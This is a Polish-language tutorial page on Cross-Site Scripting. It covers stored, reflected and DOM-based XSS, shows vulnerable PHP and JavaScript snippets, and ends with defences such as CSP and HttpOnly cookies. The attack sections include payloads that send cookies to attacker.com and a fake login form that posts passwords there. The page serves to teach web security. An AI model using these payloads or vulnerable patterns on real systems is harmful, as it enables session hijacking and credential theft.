 ```yaml
---
id: "cross-site-scripting"
title: "🎯 Cross-Site Scripting (XSS)"
sidebar_position: 9
---
```


# 🎯 Cross-Site Scripting (XSS)

Cross-Site Scripting (XSS) to jeden z najczęściej wykorzystywanych wektorów ataku na aplikacje webowe. Polega na wstrzyknięciu złośliwego kodu JavaScript do aplikacji, co może prowadzić do przejęcia sesji użytkownika, wykradania danych lub wykonywania nieautoryzowanych operacji.

---

## 🔥 Rodzaje ataków XSS

### **1️⃣ Stored XSS (Trwały XSS)**
Atakujący zapisuje złośliwy skrypt w bazie danych lub na serwerze, a następnie jest on wykonywany w przeglądarce użytkownika podczas odwiedzenia strony.

#### **Przykład ataku Stored XSS**
Podatna aplikacja zapisuje komentarze bez filtrowania treści:
```html
<input type="text" name="comment" value="">
```
Atakujący wpisuje:
```html
<script>document.location='http://attacker.com/steal?cookie='+document.cookie</script>
```
Każdy użytkownik, który odwiedzi stronę, wykona złośliwy kod JavaScript.

---

### **2️⃣ Reflected XSS (Odbity XSS)**
Złośliwy skrypt jest wstrzykiwany w parametrach URL i wykonywany przez przeglądarkę ofiary.

#### **Przykład ataku Reflected XSS**
Podatna aplikacja wyświetla dane z URL:
```php
<?php echo $_GET["query"]; ?>
```
Atakujący wysyła ofierze link:
```http
http://example.com/search?query=<script>alert('XSS')</script>
```
Jeśli użytkownik otworzy ten link, przeglądarka wykona złośliwy kod.

---

### **3️⃣ DOM-based XSS**
Występuje, gdy złośliwy skrypt jest wykonywany po stronie przeglądarki bez interakcji z serwerem.

#### **Przykład ataku DOM XSS**
Podatny kod JavaScript:
```javascript
document.write("Wyszukiwane: " + location.hash);
```
Atakujący wysyła:
```http
http://example.com/#<script>alert('XSS')</script>
```
Gdy użytkownik otworzy link, przeglądarka wykona kod JavaScript.

---

## 🛑 Wykorzystanie XSS do kradzieży sesji
XSS pozwala na przejęcie sesji użytkownika poprzez wykradanie cookies.

#### **1️⃣ Przechwytywanie sesji**
Atakujący wstrzykuje skrypt:
```javascript
<script>
  fetch('http://attacker.com/steal?cookie=' + document.cookie);
</script>
```
Ofiara odwiedza stronę → jej sesja jest wysyłana do serwera atakującego.

#### **2️⃣ Tworzenie fałszywych formularzy**
Można stworzyć formularz logowania, który kradnie dane użytkownika:
```html
<form action="http://attacker.com/steal" method="POST">
  <input type="text" name="username" placeholder="Login">
  <input type="password" name="password" placeholder="Hasło">
  <input type="submit" value="Zaloguj się">
</form>
```

---

## 🔐 Zabezpieczenia przed XSS
- **Filtrowanie wejścia** – użycie `htmlspecialchars()` w PHP lub `encodeURIComponent()` w JS.
- **CSP (Content Security Policy)** – blokowanie wykonywania inline JavaScript.
- **HttpOnly dla cookies** – zabezpiecza przed odczytem JavaScript.
- **Sanityzacja danych na wejściu i wyjściu** – usuwanie podejrzanych znaków.

Przykład ochrony CSP:
```html
<meta http-equiv="Content-Security-Policy" content="default-src 'self'; script-src 'self'">
```

---

Ataki XSS mogą prowadzić do przejęcia kont i eskalacji uprawnień. Kolejnym krokiem będzie analiza podatności **Insecure Direct Object References (IDOR) & Broken Access Control**! 🚀

